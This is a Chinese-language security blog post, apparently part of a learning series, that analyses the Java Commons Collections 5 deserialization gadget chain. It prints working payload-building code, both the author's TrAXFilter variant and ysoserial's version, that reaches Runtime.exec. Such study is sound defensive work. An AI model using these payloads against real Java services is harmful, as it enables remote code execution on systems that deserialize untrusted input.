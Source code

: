 ```yaml
---
title: "Java反序列化利用链学习 - CommonCollection5"
date: 2022-05-04T17:21:00+08:00
lastmod: 2022-05-05T17:22:00+08:00
draft: false
lightgallery: true
categories: [
    "Java Security",
]
tags: [
    "deserialiaztion",
    "java",
    "common collection",
]
---
```

## Java反序列化利用链系列

* [Java反序列化利用链 - CommonCollection1](commoncollection1.md)
* [Java反序列化利用链 - CommonCollection2](commoncollection2.md)
* [Java反序列化利用链 - CommonCollection3](commoncollection3.md)
* [Java反序列化利用链 - CommonCollection4](commoncollection4.md)
* [Java反序列化利用链 - CommonCollection5](commoncollection5.md)
* [Java反序列化利用链 - CommonCollection6](commoncollection6.md)
* [Java反序列化利用链 - CommonCollection7](commoncollection7.md)

## Java反序列化利用链 - CommonCollection5

### 前置条件

* JDK 8u76
* commons-collections 3.1

这里根据`ysoserial`代码中的描述，该利用链只在`8u76`下可用，且不开启`security manager`。后者的限制没有问题，但是前者似乎不太准确，从[jdk8u_jdk](https://github.com/JetBrains/jdk8u_jdk/)历史版本来看，早于或高于`8u76`的版本中的`/src/share/classes/javax/management/BadAttributeValueExpException.java`也是实现了可利用的`readObject`函数的。测试发现可使用。

### 利用链分析

`CommonCollection5`利用链的调用过程大致如下：

```
Gadget chain:
    ObjectInputStream.readObject()
        BadAttributeValueExpException.readObject()
            TiedMapEntry.toString()
                LazyMap.get()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
```

这里关注`javax.management.BadAttributeValueExpException`到`org.apache.commons.collections.map.LazyMap`的过程即可，后面与[Java反序列化利用链 - CommonCollection1]({{< relref "commoncollection1/index.md" >}})相似的。`BadAttributeValueExpExceptionreadObject`到内容如下

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

从`BadAttributeValueExpException#readObject`来看，只要`val`符合前两个条件，且未配置`security manager`即可进入`org.apache.commons.collections.keyvalue.TiedMapEntry#toString`方法

```java
public String toString() {
    return getKey() + "=" + getValue();
}
```

而`getValue`又会导致`LazyMap.get()`的调用，从而一步步触发至命令执行。

在构造利用链时需要注意的是，在构造`BadAttributeValueExpException`对象时，它的`val`成员的值需要通过反射机制来设置。因为构造函数中会调用`toString`方法将它变为`String`类型，
从而导致`readObject`无法执行至需要的地方。

```java
public BadAttributeValueExpException (Object val) {
    this.val = val == null ? null : val.toString();
}
```

此外除了采用`ChainedTransformer`来调用`Runtime.getRuntim().exec()`之外，后半部分也可以使用前面遇到的`TrAXFilter+TemplateImpl`利用链。代码如下

```java
public Object getObject(String command) throws Exception {
    Object template = Gadget.createTemplateImplGadget("open /System/Applications/Calculator.app");

    ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(TrAXFilter.class),
            new InstantiateTransformer(
                    new Class[] {Templates.class},
                    new Object[]{template})
    });

    LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);

    TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, 1);

    BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
    Reflections.setFieldValue(badAttributeValueExpException, "val", tiedMapEntry);

    return badAttributeValueExpException;
}
```

`ysoserial`中的相关代码如下

```java
public BadAttributeValueExpException getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class }, new Object[] {
                "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class }, new Object[] {
                null, new Object[0] }),
            new InvokerTransformer("exec",
                new Class[] { String.class }, execArgs),
            new ConstantTransformer(1) };

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

    BadAttributeValueExpException val = new BadAttributeValueExpException(null);
    Field valfield = val.getClass().getDeclaredField("val");
    Reflections.setAccessible(valfield);
    valfield.set(val, entry);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return val;
}
```

## References

1. <https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections4.java>

